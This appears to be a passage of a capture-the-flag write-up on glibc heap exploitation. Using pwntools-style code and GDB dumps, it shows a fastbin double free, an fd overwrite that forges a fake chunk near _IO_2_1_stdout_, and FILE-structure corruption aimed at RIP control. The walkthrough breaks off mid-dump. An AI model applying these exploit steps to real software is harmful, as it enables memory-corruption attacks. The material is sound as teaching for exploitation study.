 ```r
0x55962973d040:	0x0000000000000000	0x0000000000000051
0x55962973d050:	0x0000000000000000	0x00000000000000f1
0x55962973d060:	0x00007fc95f874b78	0x00007fc95f874b78
```

# Preparing for the RIP Control

To do the said, we have to go the way, we will first create a fake chunk on top of the `_IO_2_1_stdout_`, at best we do this because implying many of the few techniques of simply overwriting the `__malloc_hook` from here didn't worked, so to get the RIP control, the way to go from here is create a chunk of some sort near the `_IO_2_1_stdout_`.

Now, first we will attempt to make the chunk of size `0x71` and peform double free to create chunk at the `_IO_2_1_stdout` by overwriting the `fd`:-

```py
malloc(0,0x40,b"A")
malloc(1,0x40,b"B")
malloc(2,0x40,b"C")

malloc(0,0x60,b"A")
malloc(1,0x60,b"B")
malloc(2,0x60,b"C")

free(0)
free(2)
free(0)
```

Now, we will overwrite the `fd` of the `chunk[0]` with the an address from the `_IO_2_1_stdout` region such that it would suffice the size check.

```py
malloc(0,0x60,p64(IO_2_1_stdout))
malloc(5,0x60,"A")
malloc(2,0x60,"B")
malloc(3,0x60,b"C"*3+p64(0x0)*4+p64(0x71)+p64(0x0))
```

Now, this will create a chunk near the `_IO_2_1_stdout_`. The first chunk would look like:-

```r
0x7f193ff705f8 <_IO_2_1_stderr_+184>:	0x0000000000000000	0x0000000000000000
0x7f193ff70608 <_IO_2_1_stderr_+200>:	0x0000000000000000	0x0000000000000071
```

Now, since having near a chunk near the `_IO_2_1_stderr_`, we will just now overwrite the following data as such:-

```r
$4 = {
  file = {
    _flags = 0xfbad2887, 
    _IO_read_ptr = 0x7f193ff706a3 <_IO_2_1_stdout_+131> "\n", 
    _IO_read_end = 0x7f193ff706a3 <_IO_2_1_stdout_+131> "\n", 
    _IO_read_base = 0x7f193ff706a3 <_IO_2_1_stdout_+131> "\n", 
    _IO_write_base = 0x7f193ff706a3 <_IO_2_1_stdout_+131> "\n", 
    _IO_write_ptr = 0x7f193ff706a3 <_IO_2_1_stdout_+131> "\n", 
    _IO_write_end = 0x7f193ff706a3 <_IO_2_1_stdout_+131> "\n", 
    _IO_buf_base = 0x7f193ff706a3 <_IO_2_1_stdout_+131> "\n", 
    _IO_buf_end = 0x7f193ff706a4 <_IO_2_1_stdout_+132> "", 
```
